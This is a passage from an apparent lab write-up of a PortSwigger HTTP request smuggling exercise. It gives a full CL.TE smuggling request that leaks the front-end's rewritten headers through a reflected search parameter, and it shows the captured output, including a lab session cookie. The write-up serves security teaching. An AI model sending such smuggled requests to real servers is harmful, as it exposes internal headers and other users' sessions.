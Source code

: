 Burp Suite HTTP history:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-8/images/Pasted%20image%2020230201165937.png)

As you can see, when we clicked the "Search" button, **it'll send a POST request to `/`** with parameter `search`.

Most importantly, the parameter's value is being reflected to the web page!

**Now, we can smuggle an attack request which will leak the front-end's added header:**
```http
POST / HTTP/1.1
Host: 0ad8009603349161c0da0e7f00a2009f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0ad8009603349161c0da0e7f00a2009f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 750

search=
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-8/images/Pasted%20image%2020230201170610.png)

> Note: Since the final request is being rewritten, we don't know how long it will end up. The value in the `Content-Length` header in the smuggled request will determine how long the back-end server believes the request is. If we set this value too short, we will receive only part of the rewritten request; if we set it too long, the back-end server will time out waiting for the request to complete. Of course, the solution is to guess an initial value that is a bit bigger than the submitted request, and then gradually increase the value to retrieve more information, until we have everything of interest. In our case, the `Content-Length` header's value is set to 750.

**Normal request:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-8/images/Pasted%20image%2020230201170722.png)

**Beautified:**
```http
GET / HTTP/1.1
X-SnzJQv-Ip: {Your_Public_IP}
Host: 0ad8009603349161c0da0e7f00a2009f.web-security-academy.net
Cookie: session=Od0fa7ImaqUyX7NRhxxe6GgetURRg3he
Cache-Control: max-age=0
Sec-Ch-Ua: "Not?A_Brand";v="8", "Chromium";v="108"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,
```
